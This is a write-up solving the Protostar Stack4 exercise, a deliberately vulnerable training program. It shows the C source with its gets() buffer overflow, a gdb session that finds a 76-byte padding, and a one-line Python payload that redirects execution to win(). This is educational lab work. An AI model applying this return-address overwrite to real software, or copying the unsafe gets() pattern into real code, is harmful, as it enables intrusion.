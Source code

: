 # PROTOSTAR : STACK 4
[Protostar:Stack4](https://exploit.education/protostar/stack-four/)

### **SOURCE CODE**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to overflow the **buffer** variable and somehow reach the **win()** function but there is no pointer which we can overwrite present in the code so we need to figure out the **padding** required to overwrite the **instruction pointer/eip register** which will return to the **win()** function address. *Padding is the key*.

### **SOLUTION**
Below is the disassembly of the **main()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) 
```
To find the padding i am going some trial and error procedure to find it out. Lets setup a breakpoint at **0x0804841e (ret)**. Lets provide some input of strings.

```
(gdb) b *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x41414149
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x41414149
) at libc-start.c:187
187     libc-start.c: No such file or directory.
        in libc-start.c
(gdb) 

```

So our **Padding = 76**, meaning 76 bytes required to overwrite the instruction pointer. Lets append the address of our **win()** function but before that lets find the address of **win()** function.
<br>
To do that :-
```
user@protostar:/opt/protostar/bin$ objdump -t stack4 | grep "win"
080483f4 g     F .text  00000014              win
```
We successfully changed the code flow by overwriting the return address of the **instruction pointer**.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*76 + '\xf4\x83\x04\x08'") | ./stack4
code flow successfully changed
Segmentation fault
```
